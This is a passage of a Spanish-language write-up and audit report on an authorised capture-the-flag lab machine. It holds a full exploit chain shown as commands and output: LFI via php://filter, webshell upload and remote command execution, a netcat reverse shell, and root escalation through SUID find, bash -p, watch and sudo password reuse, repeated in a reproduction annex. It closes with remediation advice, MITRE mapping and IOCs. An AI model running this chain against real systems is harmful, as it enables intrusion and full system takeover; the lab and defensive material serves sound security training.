systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
_apt:x:104:65534::/nonexistent:/bin/false
snmp:x:105:107::/var/lib/snmp:/usr/sbin/nologin
admin:x:1000:1000::/home/admin:/bin/bash

chifay@kali:~/SHADOW ADMIN$ curl -sS "http://172.17.0.2/index.php?page=php://filter/convert.base64-encode/resource=index.php" | base64 -d

<?php if(isset($_GET["page"])) include($_GET["page"]); ?>

chifay@kali:~/SHADOW ADMIN$ curl -sS "http://172.17.0.2/index.php?page=php://filter/convert.base64-encode/resource=profile.php" | base64 -d

<?php session_start(); if(isset($_POST["login"])) { if($_POST["user"]=="admin" && $_POST["pass"]=="[REDACTADO]") { $_SESSION["admin"]=true; } } if(isset($_SESSION["admin"])) { if(isset($_POST["upload"])) move_uploaded_file($_FILES["shell"]["tmp_name"], "/var/www/html/shell.php"); echo "<form method=POST enctype=multipart/form-data><input type=file name=shell><input type=submit name=upload></form>"; } else { echo "<form method=POST>User: <input name=user><br>Pass: <input type=password name=pass><br><input type=submit name=login></form>"; } ?>
chifay@kali:~/SHADOW ADMIN$ exit

exit
```

**Lectura:** `config.bak` revela `admin:[REDACTADO]` y `APP_KEY`. El LFI confirma `/etc/passwd` y el código fuente revela la comparación hardcodeada y la subida sin validación.

### 5.5 Login en el panel y subida del webshell



*Figura 5.5. Login con credenciales reutilizadas y subida del webshell.*

```text
chifay@kali:~/SHADOW ADMIN$ curl -sS http://172.17.0.2/profile.php

<form method=POST>User: <input name=user><br>Pass: <input type=password name=pass><br><input type=submit name=login></form>
chifay@kali:~/SHADOW ADMIN$ rm -f cookies.txt

chifay@kali:~/SHADOW ADMIN$ curl -sS -c cookies.txt -b cookies.txt --data-urlencode "user=admin" --data-urlencode "pass=[REDACTADO]" --data-urlencode "login=1" http://172.17.0.2/profile.php

<form method=POST enctype=multipart/form-data><input type=file name=shell><input type=submit name=upload></form>
chifay@kali:~/SHADOW ADMIN$ curl -sS -b cookies.txt -F "shell=@www/shell.php;type=image/png" -F "upload=1" http://172.17.0.2/profile.php

<form method=POST enctype=multipart/form-data><input type=file name=shell><input type=submit name=upload></form>
chifay@kali:~/SHADOW ADMIN$ curl -sS "http://172.17.0.2/shell.php?c=id"

<pre>uid=1000(admin) gid=1000(admin) groups=1000(admin),27(sudo)
</pre>
chifay@kali:~/SHADOW ADMIN$ exit

exit
```

**Lectura:** el login con `admin:[REDACTADO]` devuelve el formulario de subida. El archivo `www/shell.php` se envía como `image/png`, pero el servidor lo guarda como `/var/www/html/shell.php` y lo ejecuta: `uid=1000(admin)`.

### 5.6 Enumeración de privilegios y SUID



*Figura 5.6. Enumeración de sudo y binarios con bit SUID.*

```text
chifay@kali:~/SHADOW ADMIN$ curl -sS "http://172.17.0.2/shell.php?c=id"

<pre>uid=1000(admin) gid=1000(admin) groups=1000(admin),27(sudo)
</pre>
chifay@kali:~/SHADOW ADMIN$ curl -sS --get --data-urlencode "c=sudo -n -l" http://172.17.0.2/shell.php

<pre>Matching Defaults entries for admin on shadowadmin:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User admin may run the following commands on shadowadmin:
    (ALL) ALL
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/php /var/www/html/shell.php
    (ALL) NOPASSWD: /usr/bin/watch
</pre>
chifay@kali:~/SHADOW ADMIN$ curl -sS --get --data-urlencode "c=find / -perm -4000 -type f 2>/dev/null" http://172.17.0.2/shell.php

<pre>/bin/su
/bin/bash
/bin/mount
/bin/umount
/usr/bin/watch
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/find
/usr/bin/chsh
/usr/bin/sudo
</pre>
chifay@kali:~/SHADOW ADMIN$ curl -sS --get --data-urlencode "c=ls -l /usr/bin/find /bin/bash /usr/bin/watch" http://172.17.0.2/shell.php

<pre>-rwsr-xr-x 1 root root 1037528 Jul 12  2019 /bin/bash
-rwsr-xr-x 1 root root  221768 Feb  7  2016 /usr/bin/find
-rwsr-xr-x 1 root root   23696 Mar  5  2020 /usr/bin/watch
</pre>
chifay@kali:~/SHADOW ADMIN$ exit

exit
```

**Lectura:** `sudo -n -l` muestra sudo completo con contraseña y reglas `NOPASSWD` para `php` y `watch`. La enumeración SUID revela `bash`, `find` y `watch` con bit SUID.

### 5.7 Shell inversa y escalada con SUID



*Figura 5.7. Shell inversa como `admin`, escalada con `find` SUID y lectura de la flag.*

```text
chifay@kali:~/SHADOW ADMIN$ nc -lvnp 4444

listening on [any] 4444 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 36390
bash: cannot set terminal process group (10): Inappropriate ioctl for device
bash: no job control in this shell
bash-4.3$ id
id
uid=1000(admin) gid=1000(admin) groups=1000(admin),27(sudo)
bash-4.3$ hostname; uname -a
hostname; uname -a
shadowadmin
Linux shadowadmin 7.2.15+kali-amd64 #1 SMP PREEMPT_DYNAMIC Kali 7.2.15-1kali1 (2026-11-03) x86_64 x86_64 x86_64 GNU/Linux
bash-4.3$ ls -la /root 2>&1
ls -la /root 2>&1
ls: cannot open directory '/root': Permission denied
bash-4.3$ /usr/bin/find . -exec /bin/bash -p \; -quit
/usr/bin/find . -exec /bin/bash -p \; -quit
id
uid=1000(admin) gid=1000(admin) euid=0(root) groups=1000(admin),27(sudo)
export PS1='root@shadowadmin:/# '
cat /root/flag.txt
SHADOW{...}
exit
bash-4.3$ exit
exit
exit

chifay@kali:~/SHADOW ADMIN$ exit

exit
```

**Lectura:** la shell inversa se recibe en `172.17.0.1:4444` como `admin`. `find . -exec /bin/bash -p \; -quit` eleva a `euid=0(root)` y `cat /root/flag.txt` devuelve la flag.

### 5.8 Vía alternativa: SUID bash directo



*Figura 5.8. `/bin/bash -p` con bit SUID ejecutando comandos como root.*

```text
chifay@kali:~/SHADOW ADMIN$ curl -sS --get --data-urlencode "c=/bin/bash -p -c 'id; cat /root/flag.txt'" http://172.17.0.2/shell.php

<pre>uid=1000(admin) gid=1000(admin) euid=0(root) groups=1000(admin),27(sudo)
SHADOW{...}
</pre>
chifay@kali:~/SHADOW ADMIN$ exit

exit
```

**Lectura:** `/bin/bash -p -c 'id; cat /root/flag.txt'` devuelve `euid=0(root)` y la flag sin necesidad de `find`. Es una segunda vía independiente.

### 5.9 Vía alternativa: reutilización de contraseña en `sudo`



*Figura 5.9. `sudo -S` con la contraseña del backup devuelve una sesión de root.*

```text
chifay@kali:~/SHADOW ADMIN$ curl -sS --get --data-urlencode "c=echo [REDACTADO] | sudo -S -k id 2>&1" http://172.17.0.2/shell.php

<pre>[sudo] password for admin: uid=0(root) gid=0(root) groups=0(root)
</pre>
chifay@kali:~/SHADOW ADMIN$ exit

exit
```

**Lectura:** `echo [REDACTADO] | sudo -S -k id` devuelve `uid=0(root)`. La contraseña del backup/panel es también la del usuario `admin` del sistema.

### 5.10 Vía alternativa: puente SUID `watch` → `bash -p`



*Figura 5.10. `watch` SUID invoca `bash -p` y permite leer la flag.*

```text
chifay@kali:~/SHADOW ADMIN$ curl -sS --get --data-urlencode "c=TERM=xterm timeout 2 /usr/bin/watch -t -n 1 -x /bin/bash -p -c 'id > /tmp/wid5 2>&1; cat /root/flag.txt >> /tmp/wid5 2>&1'; cat /tmp/wid5" http://172.17.0.2/shell.php

<pre>
uid=1000(admin) gid=1000(admin) euid=0(root) groups=1000(admin),27(sudo)
SHADOW{...}
</pre>
chifay@kali:~/SHADOW ADMIN$ exit

exit
```

**Lectura:** `watch` es SUID root pero reduce privilegios al ejecutar `/bin/sh`; al invocar `/bin/bash -p`, el bash SUID recupera `euid=0` y permite leer la flag. Es la cadena que inspira el nombre de la flag.

---

## 6. Flag

```text
SHADOW{...}
```

- Ruta: `/root/flag.txt`
- Permisos: `600 root:root` (solo root puede leerla)
- Tamaño: 44 bytes
- Obtenida tras `euid=0(root)` mediante SUID `find`/`bash` y confirmada con `sudo` reutilizando la contraseña.
- Validación en la plataforma: **`ShadowAdmin completado`** en 27m 18s.



*Figura 6. Validación de `SHADOW{...}` en la plataforma: “¡Conquistado! ShadowAdmin completado”.*

---

## 7. Recomendaciones priorizadas

### P0 — Inmediato (0–24 h)

1. **Retirar el backup del webroot** y borrar `config.bak`; deshabilitar directory listing.
2. **Rotar todas las credenciales** (`DB_PASS`, panel, usuario `admin`, `APP_KEY`) y eliminar la reutilización.
3. **Eliminar el webshell** `/var/www/html/shell.php` y revisar el webroot en busca de otros archivos subidos.
4. **Quitar SUID** a `bash`, `find` y `watch`; revisar todos los binarios SUID.
5. **Corregir `sudoers`**: quitar `NOPASSWD`, `(ALL) ALL` y sacar a `admin` del grupo `sudo`.
6. **Cambiar Apache** para que corra como `www-data`, no como `admin`.

### P1 — Corto plazo (1 semana)

1. Corregir el LFI con allowlist y `realpath`/`open_basedir`.
2. Implementar validación real de subidas (extensión, MIME, contenido, tamaño, nombre aleatorio, fuera del webroot, sin ejecución).
3. Sustituir credenciales hardcodeadas por hashes (`password_hash`) y un gestor de secretos.
4. Añadir MFA al panel y limitación de intentos.
5. Actualizar Ubuntu, PHP y Apache a versiones soportadas.
6. Cerrar el puerto `199/tcp` si no es necesario.

### P2 — Mediano plazo (1 mes)

1. Cabeceras de seguridad, cookies `HttpOnly`/`Secure`/`SameSite`, HTTPS/HSTS.
2. WAF con reglas para LFI, backups y webshells.
3. Monitorización y SIEM: alertas por `sudo`, cambios SUID, nuevos `.php` en el webroot y conexiones salientes inusuales.
4. FIM (File Integrity Monitoring) sobre `/var/www/html`, `/etc/sudoers*` y binarios del sistema.
5. Auditoría periódica de SUID, capacidades y permisos.
6. Revisión de código seguro y pruebas de regresión de seguridad en CI/CD.

---

## 8. Mapeo MITRE ATT&CK

| Técnica | ID | Evidencia |
|---|---|---|
| Active Scanning | T1595 | `nmap`, `gobuster`, `nikto` |
| File and Directory Discovery | T1083 | `/backups/`, `index.php`, `profile.php` |
| Credentials In Files | T1552.001 | `config.bak` → `admin:[REDACTADO]` |
| Exploit Public-Facing Application | T1190 | LFI en `index.php?page=` |
| Valid Accounts | T1078 | login en panel y usuario `admin` |
| Web Shell | T1505.003 | `/var/www/html/shell.php` |
| Unix Shell | T1059.004 | shell inversa y comandos vía webshell |
| Sudo and Sudo Caching | T1548.003 | `sudo -n -l`, `sudo -S` con contraseña reutilizada |
| Setuid and Setgid | T1548.001 | `/bin/bash`, `/usr/bin/find`, `/usr/bin/watch` |
| Data from Local System | T1005 | `/root/flag.txt` |

---

## 9. Conclusión

Shadow Admin es un ejemplo claro de **fallo en profundidad**: ninguna de las debilidades aisladas debería permitir un compromiso total, pero su combinación convierte un directory listing en una **ejecución remota como root** y en la captura de la flag.

La auditoría confirma:

- Acceso no autenticado a credenciales mediante un backup publicado.
- Reutilización de credenciales entre base de datos, panel y sistema.
- LFI que revela código fuente y archivos del sistema.
- Subida de archivos sin validación que deriva en webshell.
- Configuración de privilegios excesiva (Apache como `admin`, `sudo` amplio, SUID peligrosos).

La corrección debe abordar la **causa raíz** (gestión de secretos, validación de entrada, permisos mínimos y endurecimiento del sistema), no solo eliminar el webshell o la flag. Con las recomendaciones P0 aplicadas, la cadena de explotación queda rota en varios puntos simultáneamente.

---

## Anexo A — Evidencias y hashes

### A.1 Archivos de evidencia

| Archivo | Descripción |
|---|---|
| `evidencias/config.bak` | Backup con credenciales |
| `evidencias/passwd.txt` | `/etc/passwd` obtenido por LFI |
| `evidencias/index.php.txt` | Código fuente de `index.php` (LFI) |
| `evidencias/profile.php.txt` | Código fuente de `profile.php` (LFI) |
| `evidencias/shell.php` | Webshell subido |
| `evidencias/sudo_l.txt` | Salida de `sudo -n -l` |
| `evidencias/suid.txt` | Lista de binarios SUID |
| `evidencias/flag.txt` | Flag capturada |

### A.2 Hashes SHA-256

```text
0f6eb6a75422c3918c66298c096a5dfdab8c1d0c1112e070ce2a4c71c0b7610e  evidencias/config.bak
902d5ebeba9d45dfaa7fee34dfb56201de7ed676950d7d39e44705f647228815  evidencias/flag.txt
e08c9af7a837a39a2bca0514fe488f82f54ff1088f4143164a1d3d393d8ea6de  evidencias/index.php.txt
cf0310205e7405d703cf788da3c53f866eaa546683a777240c7f5363bfdd4d06  evidencias/passwd.txt
5a78fd129b56cb44d62191bf8df3ca2bd53bb95b9ea9450d32286436769263b0  evidencias/profile.php.txt
888bb111f0258dd6e9267638d876308e8ebb482d00aaf756d001a4113e50ea7b  evidencias/shell.php
fc55e5c777c592543b0f57b59afa8335bae7a420c5013b135a1a6e7ccf8f4add  evidencias/sudo_l.txt
99c7435c7fb1dedbfbead421cefe391f958ad2138c7ddadd8ba882931cd5f724  evidencias/suid.txt
```

Capturas de pantalla:

```text
8fa308ae7f14a2ec6fa51667fba656abcb10d4a8b33afca4d9ec8f04841ae25e  capturas_png/01_nmap.png
504985f86da12bcd558ec4858393a72662f2f6270efd20dae9bafafceed916de  capturas_png/02_gobuster.png
505ac373401863c3222aa60cdb433e73724e27a9193c5810b1f6d47c01239311  capturas_png/03_nikto.png
27460ec966cf84e96c41f7778a66ba095f480bfa3b83153b8e5b5198373d62b5  capturas_png/04_backup_lfi.png
90823b3a32f20b6983d20e4a9051741ff54e3d9375c3342beffaebafcf52779c  capturas_png/05_login_upload.png
4b47826197e1445a6a6db3e05af1121d33cb35d86b8cc19cbdacf54476bfc319  capturas_png/06_suid_enum.png
d73d6d580ed197623b8f58852aee61d8616b1d1d6e23f1e1fd7bedcf5724675d  capturas_png/07_revshell.png
048cf9bf893e42b7acd142398aa3d0dc8fd6fbe670697c3be17ee0c2888b095f  capturas_png/08_suid_bash.png
0fca504842a40fb1a7a1d2af0071443a455e232a9b327d1d4094c9787732d177  capturas_png/09_sudo_reuse.png
5092e69ec02045f78960ac022deec33ea9aa513957a7834019e1a9b92431ea0e  capturas_png/10_watch_bridge.png
d629832893cb3ef478e481f6c5a032464f15ac993e926d0e041e0df18a72c917  capturas_png/11_validacion_flag.png
```

### A.3 Capturas de terminal

- `capturas_png/`: capturas de pantalla PNG, incrustadas en la sección 5.
- `capturas_png/11_validacion_flag.png`: captura de la validación de la flag en la plataforma.
- `captures_clean/`: capturas de la salida de los comandos usados (texto).
- `captures_clean/01_nmap.txt` … `captures_clean/10_watch_bridge.txt`.

### A.4 IOC útil para detección

- Archivo creado: `/var/www/html/shell.php` (149 bytes, propietario `admin:admin`).
- Peticiones a `/backups/config.bak`.
- Parámetros `page` con `../` o `php://filter`.
- `POST /profile.php` multipart seguido de `GET /shell.php?c=...`.
- Ejecución de `/usr/bin/find ... -exec /bin/bash -p`.
- `sudo` desde el usuario `admin` y conexiones salientes a `172.17.0.1:4444`.

---

## Anexo B — Reproducción rápida (solo laboratorio autorizado)

```bash
# 1. Backup y credenciales
curl -sS http://172.17.0.2/backups/config.bak

# 2. LFI
curl -sS "http://172.17.0.2/index.php?page=../../../../../../etc/passwd"

# 3. Login
curl -sS -c cookies.txt -b cookies.txt \
  --data-urlencode "user=admin" \
  --data-urlencode "pass=[REDACTADO]" \
  --data-urlencode "login=1" \
  http://172.17.0.2/profile.php

# 4. Subida del webshell
curl -sS -b cookies.txt \
  -F "shell=@www/shell.php;type=image/png" \
  -F "upload=1" \
  http://172.17.0.2/profile.php

# 5. RCE
curl -sS "http://172.17.0.2/shell.php?c=id"

# 6. Escalada SUID (desde una shell como admin)
/usr/bin/find . -exec /bin/bash -p \; -quit
id
cat /root/flag.txt
```

---

## Anexo C — Nota de alcance

Esta auditoría se realizó sobre un laboratorio vulnerable y autorizado de Whoami-Labs. Las técnicas y comandos documentados deben utilizarse exclusivamente en entornos con autorización explícita. El compromiso se realizó con tráfico de red contra los servicios expuestos por `172.17.0.2`; no se consultó el daemon de Docker ni se modificó la infraestructura.
